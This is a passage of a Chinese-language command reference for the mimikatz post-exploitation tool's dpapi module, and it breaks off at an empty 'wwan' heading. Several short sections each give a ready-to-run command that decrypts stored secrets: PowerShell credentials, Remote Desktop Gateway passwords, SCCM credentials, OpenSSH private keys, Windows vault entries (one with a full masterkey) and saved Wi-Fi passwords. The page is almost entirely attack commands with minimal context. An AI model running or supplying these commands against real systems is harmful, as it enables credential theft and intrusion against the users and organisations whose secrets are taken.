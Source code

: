 ## ps
解密PowerShell凭证（PSCredentials或SecureString）。

```
mimikatz # dpapi::ps /in:ps_cred.xml /unprotect
```

## rdg

解密远程桌面网关保存的密码
```
mimikatz # dpapi::rdg /in:test.rdg /unprotect
```

## sccm

用来解密保存的SCCM凭证

```
mimikatz # dpapi::sccm  /unprotect
```


## ssh

提取OpenSSH私钥

```
mimikatz # dpapi::ssh /unprotect
```

## vault

从凭证库中解密DPAPI金库凭证

```
mimikatz # dpapi::vault /cred:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\21CD6FA9B5E4C7D1D04AE0182DD7F440F54E02ED.vcrd" /policy:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\Policy.vpol" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
```

## wifi

解密保存的Wi-Fi密码

```
mimikatz # dpapi::wifi /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{F4257B8E-3599-4A6F-AEA2-B3B7646ECA80}\{25F4C906-099A-4871-826D-8A604C132954}.xml" /unprotect
```

## wwan
